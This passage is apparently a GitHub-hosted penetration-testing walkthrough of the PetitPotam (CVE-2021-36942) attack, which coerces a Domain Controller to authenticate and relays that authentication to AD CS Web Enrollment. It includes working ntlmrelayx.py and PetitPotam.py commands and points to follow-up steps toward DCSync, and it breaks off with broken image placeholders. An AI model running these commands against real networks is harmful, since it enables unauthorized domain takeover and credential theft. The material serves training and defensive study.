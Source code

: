 PetitPotam ([CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an LSA spoofing vulnerability that was patched in August of 2021. The flaw allows an unauthenticated attacker to coerce a Domain Controller to authenticate against another host using NTLM over port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). This technique allows an unauthenticated attacker to take over a Windows domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use. In the attack, an authentication request from the targeted Domain Controller is relayed to the Certificate Authority (CA) host's Web Enrollment page and makes a Certificate Signing Request (CSR) for a new digital certificate. This certificate can then be used with a tool such as `Rubeus` or `gettgtpkinit.py` from [PKINITtools](https://github.com/dirkjanm/PKINITtools) to request a TGT for the Domain Controller, which can then be used to achieve domain compromise via a DCSync attack.

Relaying NTLM Authentication: captures NTLM authentication messages from one source and forwards them to a target system, allowing the attacker to authenticate as the intercepted user.
Let's walk through the attack. First off, we need to start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template. If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.
```shell
sudo ntlmrelayx.py -debug -smb2support --target http://Subdomain.Domain/certsrv/certfnsh.asp --adcs --template DomainController
```
![image](https://github.com/user-attachments/assets/4a5da9a5-ba54-4cf0-8f2e-5244a537ad57)

we can run the tool [PetitPotam.py](https://github.com/topotam/PetitPotam). We run this tool with the command
```shell
python3 PetitPotam.py <attack host IP> <Domain Controller IP>
```
to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.
From ntlmrelayx session
![Uploading image.png…]()


